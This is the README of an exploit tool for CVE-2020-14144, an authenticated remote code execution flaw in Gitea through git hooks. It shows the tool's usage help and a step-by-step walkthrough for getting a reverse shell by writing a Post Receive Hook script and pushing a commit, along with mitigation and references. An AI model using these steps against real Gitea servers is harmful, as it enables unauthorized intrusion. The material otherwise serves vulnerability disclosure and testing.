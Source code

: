 # CVE-2020-14144 - GiTea authenticated RCE

<p align="center">
  A script to exploit CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks
  <br>
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/CVE-2020-14144-GiTea-git-hooks-rce">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
  <br>
</p>

## Features

 - [x] Automatic reverse shell payload generation from IP and PORT
 - [x] Upload custom shell script and execute it remotely with option `-f`
 - [x] Automatic login with username and password

## Usage

```
$ ./CVE-2020-14144-GiTea-git-hooks-rce.py -h
    _____ _ _______
   / ____(_)__   __|             CVE-2020-14144
  | |  __ _   | | ___  __ _
  | | |_ | |  | |/ _ \/ _` |     Authenticated Remote Code Execution
  | |__| | |  | |  __/ (_| |
   \_____|_|  |_|\___|\__,_|     GiTea versions >= 1.1.0 to <= 1.12.5
     
usage: CVE-2020-14144-GiTea-git-hooks-rce.py [-h] [-v] -t TARGET -u USERNAME -p PASSWORD [-I REV_IP] [-P REV_PORT] [-f PAYLOAD_FILE]

CVE-2020-14144 - GiTea authenticated Remote Code Execution using git hooks

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Increase verbosity.
  -t TARGET, --target TARGET
                        Target host (http://..., https://... or domain name)
  -u USERNAME, --username USERNAME
                        GiTea username
  -p PASSWORD, --password PASSWORD
                        GiTea password
  -I REV_IP, --rev-ip REV_IP
                        Reverse shell listener IP
  -P REV_PORT, --rev-port REV_PORT
                        Reverse shell listener port
  -f PAYLOAD_FILE, --payload-file PAYLOAD_FILE
                        Path to shell script payload to use.

```

## Demonstration

In order to successfully exploit this vulnerability/feature, the target server GiTea version should be between version 1.1.0 and version 1.13, and you need a valid account (username, password) with "_May create git hooks_" rights activated.

![Account with "_May create git hooks_" rights activated](./.github/may_create_git_hooks.png)

From a system administration point of view, the gitea process looks like this before the exploitation :

![Service status before exploit](./.github/gitea_service_before_exploit.png)

First of all, we need to create a repository on the GiTea web interface, using our account. We create the repository and we go into `Settings -> Git Hooks -> Post Receive Hook`. In this hook you can write a shell script that will be executed after receiving a new commit.

![Post Receive Hook](./.github/post_receive_hook.png)

Now we will create a temporary directory on our attacking machine, and push to the remote repository. It will trigger the `Post Receive Hook` script.

```sh
touch README.md
git init
git add README.md
git commit -m "Initial commit"
git remote add origin https://vulnserver/testuser/vuln.git
git push -u origin master
```

After we pushed the commit to the remote repository, it will trigger the `Post Receive Hook` script and we will have a reverse shell !

![Reverse Shell](./.github/gitea_reverse_shell.png)

After the exploitation, a system administrator can easily see our detached reverse shell in the child processes of GiTea :

![Service status after exploit](./.github/gitea_service_after_exploit.png)

## Mitigations

It is recommended to update to at least version 1.13.0.

## Additional references

 - https://podalirius.net/en/articles/exploiting-cve-2020-14144-gitea-authenticated-remote-code-execution/
 - https://nvd.nist.gov/vuln/detail/CVE-2020-14144
 - https://www.fzi.de/en/news/news/detail-en/artikel/fsa-2020-3-schwachstelle-in-gitea-1125-und-gogs-0122-ermoeglicht-ausfuehrung-von-code-nach-authent/
 - https://docs.gitlab.com/ee/administration/server_hooks.html
 - https://github.com/go-gitea/gitea
 - https://github.com/go-gitea/gitea/pull/13058

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.

